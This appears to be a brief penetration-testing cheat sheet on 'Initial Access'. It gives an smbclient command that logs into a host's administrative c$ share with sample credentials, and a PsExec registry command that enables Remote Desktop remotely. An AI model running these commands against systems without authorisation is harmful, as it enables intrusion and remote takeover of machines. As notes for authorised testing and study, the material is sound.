 # Initial Access

## SMB
### smbclient
```bash
smbclient //192.168.1.69/c$ -U john Password123!
# NT_STATUS_ACCESS_DENIED may indicate the credentials are wrong or network access is restricted
```

## RDP
### Enable RDP Remotely
```bash
# enter the command below on one line 
PsExec.exe /accepteula \\192.168.1.69 \
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" \
  /v fDenyTSConnections /t REG_DWORD /d 0 /f
```